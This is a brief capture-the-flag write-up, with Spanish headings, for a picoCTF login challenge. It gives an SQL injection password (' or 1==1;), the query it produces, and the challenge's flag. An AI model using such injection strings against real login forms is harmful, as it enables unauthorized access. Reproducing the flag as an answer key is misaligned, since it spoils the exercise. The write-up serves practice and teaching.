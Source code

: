 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!
## Solución
```
username: admin 
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin ' AND password='' or 1==1;'
 # Logged in!

Your flag is: picoCTF{s0m3_SQL_c218b685}
```
## Notas adicionales

## Referencias